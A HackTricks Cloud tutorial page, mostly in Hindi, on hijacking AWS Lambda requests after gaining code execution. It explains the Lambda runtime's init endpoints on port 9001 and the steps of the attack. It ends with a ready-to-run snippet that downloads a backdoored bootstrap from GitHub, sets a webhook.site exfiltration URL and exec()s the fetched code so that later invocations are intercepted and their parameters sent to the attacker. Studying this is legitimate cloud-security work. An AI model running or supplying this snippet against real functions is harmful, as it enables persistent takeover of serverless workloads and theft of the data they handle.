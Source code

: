 # AWS - Lambda अनुरोध चुराना

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर **हमें फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करके।

</details>
{% endhint %}

## Lambda प्रवाह

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** एक प्रक्रिया है जो कंटेनर के बाहर है और **invocations** को **init** प्रक्रिया को **भेजती** है।
2. Init प्रक्रिया पोर्ट **9001** पर सुनती है जो कुछ दिलचस्प एंडपॉइंट्स को उजागर करती है:
* **`/2018-06-01/runtime/invocation/next`** – अगली invocation घटना प्राप्त करें
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – invoke के लिए हैंडलर प्रतिक्रिया लौटाएं
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – एक निष्पादन त्रुटि लौटाएं
3. **bootstrap.py** में एक लूप है जो init प्रक्रिया से invocations प्राप्त करता है और उन्हें संभालने के लिए उपयोगकर्ता के कोड को कॉल करता है (**`/next`**).
4. अंततः, **bootstrap.py** init को **response** भेजता है

ध्यान दें कि bootstrap उपयोगकर्ता के कोड को एक मॉड्यूल के रूप में लोड करता है, इसलिए उपयोगकर्ता के कोड द्वारा किया गया कोई भी कोड निष्पादन वास्तव में इस प्रक्रिया में हो रहा है।

## Lambda अनुरोध चुराना

इस हमले का लक्ष्य उपयोगकर्ता के कोड को एक दुर्भावनापूर्ण **`bootstrap.py`** प्रक्रिया को निष्पादित करना है जो उस **`bootstrap.py`** प्रक्रिया के अंदर है जो कमजोर अनुरोध को संभालती है। इस तरह, **दुर्भावनापूर्ण bootstrap** प्रक्रिया **init प्रक्रिया** के साथ **बातचीत करना शुरू कर देगी** ताकि अनुरोधों को संभाला जा सके जबकि **वैध** bootstrap **फंस** गया है जो दुर्भावनापूर्ण को चला रहा है, इसलिए यह init प्रक्रिया से अनुरोध नहीं मांगेगा।

यह एक सरल कार्य है क्योंकि उपयोगकर्ता का कोड वैध **`bootstrap.py`** प्रक्रिया द्वारा निष्पादित किया जा रहा है। इसलिए हमलावर कर सकता है:

* **Init प्रक्रिया को वर्तमान invocation का एक नकली परिणाम भेजें**, ताकि init सोचता है कि bootstrap प्रक्रिया अधिक invocations की प्रतीक्षा कर रही है।
* एक अनुरोध **`/${invoke-id}/response`** पर भेजा जाना चाहिए
* Invoke-id को वैध **`bootstrap.py`** प्रक्रिया के स्टैक से [**inspect**](https://docs.python.org/3/library/inspect.html) पायथन मॉड्यूल का उपयोग करके प्राप्त किया जा सकता है (जैसा कि [यहां प्रस्तावित है](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) या बस इसे फिर से **`/2018-06-01/runtime/invocation/next`** पर अनुरोध करके प्राप्त किया जा सकता है (जैसा कि [यहां प्रस्तावित है](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* अगली invocations को संभालने के लिए एक दुर्भावनापूर्ण **`boostrap.py`** निष्पादित करें
* छिपाने के उद्देश्यों के लिए, हमलावर के नियंत्रित C2 को lambda invocations पैरामीटर भेजना संभव है और फिर अनुरोधों को सामान्य रूप से संभालें।
* इस हमले के लिए, **`bootstrap.py`** का मूल कोड सिस्टम से या [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) से प्राप्त करना, दुर्भावनापूर्ण कोड जोड़ना और इसे वर्तमान lambda invocation से चलाना पर्याप्त है।

### हमले के चरण

1. एक **RCE** भेद्यता खोजें।
2. एक **दुर्भावनापूर्ण** **bootstrap** उत्पन्न करें (जैसे [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **दुर्भावनापूर्ण bootstrap** निष्पादित करें।

आप इन कार्यों को आसानी से चलाकर कर सकते हैं:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
